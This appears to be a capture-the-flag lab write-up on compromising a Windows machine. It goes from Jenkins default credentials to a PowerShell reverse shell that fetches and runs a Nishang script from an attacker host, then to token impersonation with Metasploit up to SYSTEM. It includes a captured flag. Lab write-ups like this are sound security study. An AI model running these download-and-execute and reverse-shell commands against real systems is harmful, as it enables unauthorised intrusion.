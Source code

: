 To conduct penetration testing on a vulnerable Windows system by exploiting Jenkins vulnerabilities for initial access, followed by privilege escalation to SYSTEM level. The ultimate goal was to retrieve the root.txt flag as proof of successful exploitation.

Tools Used
Kali Linux (attacker machine)

Metasploit Framework (exploitation & post-exploitation)

msfvenom (payload creation)

Meterpreter (post-exploitation & privilege escalation)

PowerShell (script execution on target)

Nmap (network scanning & reconnaissance)

Testing Phases
1. Target System Scanning with Nmap
The first step was reconnaissance to identify open ports and services using:

bash
nmap -sC -sV -A 10.10.115.34
Scan Results:

PORT     STATE SERVICE    VERSION  
80/tcp   open  http       Microsoft IIS httpd 7.5  
3389/tcp open  tcpwrapped  
8080/tcp open  http       Jetty 9.4.z-SNAPSHOT  
Findings:

Port 80: Microsoft IIS 7.5 web server

Port 3389: RDP (Remote Desktop Protocol)

Port 8080: Jenkins running on Jetty

2. Gaining Initial Access via Jenkins
The Jenkins service on port 8080 was identified as the primary entry point.

Action: Login attempt with default credentials admin:admin → successful access.

Exploitation Method: Uploading and executing a PowerShell reverse shell script.

Reverse Shell Command (Nishang):

powershell
powershell -nop -w hidden -c "IEX (New-Object Net.WebClient).DownloadString('http://10.10.166.245:8000/Invoke-PowerShellTcp.ps1'); Invoke-PowerShellTcp -Reverse -IPAddress 10.10.166.245 -Port 9001"
Hosting the Script on Kali (HTTP Server):

bash
python3 -m http.server 8000
Netcat Listener for Connection:

bash
nc -lvnp 9001
Result: Obtained an interactive PowerShell session as user bruce.

3. Retrieving the user.txt Flag
After gaining access, the user flag was located in the user’s desktop directory:

powershell
type C:\Users\bruce\Desktop\user.txt
Flag:

79007a09481963edf2e1321abd9ae2a0
4. Privilege Escalation to SYSTEM
Checking user privileges revealed SeDebugPrivilege and SeImpersonatePrivilege, enabling privilege escalation.

Checking Privileges:

powershell
whoami /priv
Output:

SeDebugPrivilege                Debug programs                            Enabled  
SeImpersonatePrivilege          Impersonate a client after authentication Enabled  
Using Metasploit’s incognito Module:

bash
load incognito  
list_tokens -g  
impersonate_token "BUILTIN\Administrators"  
Verifying Access:

powershell
whoami
Result:

NT AUTHORITY\SYSTEM
5. Attempting to Retrieve root.txt
Despite SYSTEM access, the root.txt flag (typically in C:\Windows\System32\config) could not be retrieved due to filesystem restrictions.

Conclusions & Results
Initial Access: Achieved via Jenkins default credentials and a PowerShell reverse shell.

Privilege Escalation: Leveraged SeDebugPrivilege and SeImpersonatePrivilege to escalate to SYSTEM.

Flag Retrieval:

user.txt → Successfully obtained.

root.txt → Access blocked by additional restrictions.

The project demonstrated the risks of unsecured Jenkins instances and the effectiveness of PowerShell and Metasploit in post-exploitation.

Key Learnings
✅ Exploiting Jenkins vulnerabilities for initial access.
✅ Reverse shell deployment via PowerShell and Netcat.
✅ Privilege escalation using Metasploit’s incognito.
✅ Analyzing system restrictions on protected files.

Final Outcome: Successful penetration with SYSTEM escalation, though root.txt remained inaccessible.
